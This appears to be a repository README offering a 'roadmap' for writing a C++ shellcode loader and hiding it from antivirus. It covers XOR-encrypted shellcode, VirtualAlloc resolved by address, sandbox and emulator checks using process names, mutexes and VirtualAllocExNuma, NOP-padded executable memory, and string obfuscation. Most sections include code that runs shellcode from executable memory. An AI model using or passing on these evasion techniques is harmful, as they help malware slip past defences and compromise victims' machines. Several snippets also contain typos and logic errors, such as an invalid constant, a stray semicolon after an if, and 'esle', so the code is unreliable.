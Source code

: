 # Countering antivirus roadmap

Below I will outline several ways to write a shellcode loader in memory and how to hide it from antivirus on C++.

1. [Shellcode encryption](#1)
2. [Using functions via address](#2)
3. [Result processing Windows API](#3)
4. [Сhecking the process name](#4)
5. [Сhecking mutex before launching](#5)
6. [Allocating a large amount of memory for shellcode](#6)
7. [Obfuscate strings](#7)

## <a name="1">Shellcode encryption </a>
The simplest and most important way to hide the load is shellcode encryption , this will help bypass static analysis of your file.
You can use both simple xor and more complex encryption methods such as rc4 , etc .

for example:

```
  const char key[]="somekey";
  const char shellcode[]="some shellcode";
  
  char coded[sizeof(shellcode)];
  
  for (int i=0,j=0; i<sizeof(shellcode); i++,j++){
    if (!(j<sizeof(key))) {
    j=0;
    }
    coded[i] = shellcode[i] ^ key[j];
  }
```

## <a name="2">Using functions via address</a>

You can use instead of a direct function call , a call through the address of this function in memory

for example:
```
  typedef LPVOID(__cdecl *MPROC)(LPVOID,SIZE_T,DWORD,DWORD;
  
  MPROC Alloc = (MPROC)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")),"VirtualAlloc");
  char *ex = (char*)Alloc(NULL,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE-READWRITE);
```

## <a name="3">Result processing Windows API</a>

The antivirus emulator may not handle all Windows API functions and returns by default Null

for example:
```
  LPVOID res = NULL;
  res = VirtualAllocExNuma(GetCurrentProcess(), NULL, 100, MEM_REVERSE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  
  if (res != NULL )
  {
    //exec shellcode
  }
  return 0;
```
## <a name="4">Сhecking the process name</a>

Antivirus during the binary file check can run it not with the original name, to bypass dynamic checking, you can check the name of the file being run.

for example:
```
 int main ( int argc, char* argv[])
 {
  if (argv[0] == "my_name.exe")
  {
    //exec shellcode
  } 
  return 0;
 } 
```

## <a name="5">Сhecking mutex before launching</a>

You can start the program execution process only if a certain mutex is found in the system. If you try to create an existing mutex, the process throws an error.

for example:
```
 HANDLE mutex;
 mutex = CreateMutex( NULL, TRUE, "MY_MUTEX");
 
 if ( GetLastError() == ERROR_ALREADY_EXIST );
 {
  // exec shellcode
 }
 esle 
 {
  startExe("my_proc.exe");
  Sleep(1000);
 }
 return 0;
```

## <a name="6">Allocating a large amount of memory for shellcode</a>

With dynamic program analysis, antiviruses analyze the allocated memory, but they can analyze a certain amount of memory. you can allocate more memory than is necessary to write the silk code and write the first part, which will be analyzed by antivir with empty bytes.

for example:
```
 char *ex = VirtualAlloc(NULL, sizeof(shellcode)*2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 char *ex2 = ex + sizeof(shellcode);
 memcpy(ex2, shellcode, sizeof(shellcode));
 
 for( int i=0; i<=sizeof(shellcode)-1; i++)
 {
  ex[i] = 0x90;
 }
 
 ((void(*)())ex)();
```

## <a name="7">Obfuscate strings</a>

When plain text string literals are used in C++ programs, they will be compiled as-is into the resultant binary. This causes them to be incredibly easy to find. One can simply open up the binary file in a text editor to see all of the embedded string literals in plain view. A special utility called strings exists which can be used to search binary files for plain text strings.

You can use special strings obfuscators for example https://github.com/adamyaxley/Obfuscate
